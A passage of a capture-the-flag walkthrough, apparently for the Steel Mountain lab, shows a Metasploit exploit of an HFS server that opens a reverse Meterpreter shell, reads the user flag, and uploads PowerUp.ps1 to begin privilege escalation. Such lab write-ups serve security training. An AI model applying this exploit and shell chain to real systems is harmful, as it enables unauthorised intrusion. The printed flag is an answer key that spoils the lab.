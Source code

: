 Exploit to spawn `meterpreter` shell and get system info and flag.
{% capture code %}{% raw %}msf5 exploit(windows/http/rejetto_hfs_exec) > exploit

[*] Started reverse TCP handler on <source-ip>:4444
[*] Using URL: http://0.0.0.0:8080/AgvBfPcusrk
[*] Local IP: http://<source-ip>:8080/AgvBfPcusrk
[*] Server started.
[*] Sending a malicious request to /
[*] Payload request received: /AgvBfPcusrk
[*] Sending stage (176195 bytes) to <target-ip>
[*] Meterpreter session 1 opened (<source-ip>:4444 -> <target-ip>:49231) at 2021-04-27 04:42:14 +0100
[!] Tried to delete %TEMP%\JatBAp.vbs, unknown result
[*] Server stopped.

meterpreter > sysinfo
Computer        : STEELMOUNTAIN
OS              : Windows 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter > getuid
Server username: STEELMOUNTAIN\bill
meterpreter > shell
Process 2500 created.
Channel 2 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup>type C:\Users\bill\Desktop\user.txt
type C:\Users\bill\Desktop\user.txt
b04763b6fcf51fcd7c13abc7db4fd365

c:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup>exit
exit{% endraw %}{% endcapture %} {% include code.html code=code %}


## Task 3 - Privilege Escalation

### References
- [PowerUp Reference](https://4n3i5v74.github.io/posts/cheatsheet-nmap/){:target="_blank"}


Download the `PowerUp.ps1` script using `wget https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1`.

From the existing `meterpreter` shell in `msfconsole -q`, upload the `PowerUp.ps1` script and `source` the `functions` in them.
{% capture code %}{% raw %}meterpreter > upload /root/PowerUp.ps1
[*] uploading  : /root/PowerUp.ps1 -> PowerUp.ps1
[*] Uploaded 586.51 KiB of 586.51 KiB (100.0%): /root/PowerUp.ps1 -> PowerUp.ps1
[*] uploaded   : /root/PowerUp.ps1 -> PowerUp.ps1

meterpreter > load powershell
Loading extension powershell...Success.

meterpreter > powershell_shell

PS > pwd

Path
C:\users\bill\desktop

PS > . .\PowerUp.ps1{% endraw %}{% endcapture %} {% include code.html code=code %}

